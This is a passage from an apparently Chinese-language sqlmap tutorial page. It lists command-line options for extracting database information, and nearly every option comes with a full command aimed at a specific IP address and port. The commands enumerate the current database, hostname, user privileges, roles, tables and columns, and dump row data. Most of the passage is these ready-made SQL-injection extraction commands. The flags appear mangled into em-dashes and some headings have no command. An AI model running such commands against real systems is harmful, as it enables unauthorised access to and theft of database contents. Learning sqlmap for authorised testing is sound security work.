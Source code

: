 > python sqlmap.py -u “http://59.63.200.79:8003/?id=1“ —current-db



##### **—hostname ：查看服务器的主机名** 

> python sqlmap.py -u “http://59.63.200.79:8003/?id=1“ —hostname



##### **—Privileges -U username ：查询username的权限** 

> python sqlmap.py -u “http://59.63.200.79:8003/?id=1“ —Privileges -U username



##### **—roles ：查询角色** 

> python sqlmap.py -u “http://59.63.200.79:8003/?id=1“ —roles



##### **—tables ：查看所有的表** 

> python sqlmap.py -u “http://59.63.200.79:8003/?id=1“ —tables



##### **-T ：指定表** 

> python sqlmap.py -u “http://59.63.200.79:8003/?id=1“ -T table_name



##### **—columns ：查看所有的字段** 

> python sqlmap.py -u “http://59.63.200.79:8003/?id=1“ —columns



##### **-C ：指定字段** 



##### **—count ：计数，查看有多少条数据**

> python sqlmap.py -u “http://59.63.200.79:8003/?id=1“ —count



##### **—exclude-sysdbs ：排除系统库** 

> python sqlmap.py -u “http://59.63.200.79:8003/?id=1“ —exclude-sysdbs



##### **—dump ：查看数据** 



> **python sqlmap.py -u “**http://59.63.200.79:8003/?id=1**“ —dump**



##### **—start 3 ：查看第三条**

> python sqlmap.py -u “http://59.63.200.79:8003/?id=1“ —start 3
